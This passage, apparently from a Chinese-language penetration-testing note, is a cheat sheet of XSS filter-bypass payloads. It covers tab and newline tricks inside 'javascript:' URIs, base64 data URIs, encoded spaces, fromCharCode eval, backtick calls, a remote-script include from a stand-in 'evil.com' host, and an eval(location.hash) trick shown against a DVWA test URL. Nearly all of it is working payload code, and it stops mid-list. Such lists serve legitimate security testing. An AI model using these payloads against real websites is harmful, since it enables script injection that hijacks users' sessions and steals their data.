 ```
<iframe src="javascr    ipt:alert(0)"></iframe> 
   
<iframe src="javascr
ipt:alert(0);"></iframe>
```

**③ 还可以插入`&#9;`（tab）`&#10;`（换行符）`&#13`（回车符）**

```<iframe src=jav&#9;ascript:alert()></iframe>``` 

**④ 还可以通过data URI**

```
<script src=data:text/javascript,alert(8)></script>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### 过滤空格

用 `%2F` （/）`%0a`（换行）`%0d`（回车）`%0c`（分页符）`%09`（水平指标符/tab）代替空格，上述字符也可以分隔标签及其属性

```
<svg/onload=alert(1)>
<img%0dsrc=x%0donerror=alert(1)>
<svg%0aonload=alert(1)>
<svg%0conload=alert(1)>
<svg%09onload=alert(1)>
```

### 过滤双引号

* 双引号不行换单引号	`' onclick=alert(1)//`
* 试试反引号【`】
* 还原ascii码绕过  

```
<script>alert(String.fromCharCode(34, 120, 115, 120, 115, 34))</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59))</script>
```

### 检查伪协议里面有没有http://

```
javascrip&#x74;:alert(1)//http://                    ---利用注释符
javascrip&#x74;:%0dhttp://xxx.com%0dalert(1)            ----利用%0d
javascrip&#x74;:%0ahttp://xxx.com%0dalert(1)            ----利用%0a
```

### 过滤圆括号

```
<svg onload=alert`1`></svg>
```

### 绕过长度限制

* 动态调用远程js	`<script src=http://www.evil.com/xss.js></script>`
* window.location.hash
location是javascript的内置对象，location.hash可以用来获取或设置页面的标签值（url中#后面的值）
location.hash.substr(1)的作用是抽取#后面的字符
在地址栏输入shellcode（#后面），再通过eval(location.hash.substr(1))执行。
`http://www.dvwa2.test/vulnerabilities/xss_r/?name=%3Cimg+src%3D%22x%22+onerror%3D%22eval(location.hash.subst(1))%22%3E#alert(1) `
* 拆分法
* 备选存储技术(其他存储XSS shellcode方法)
```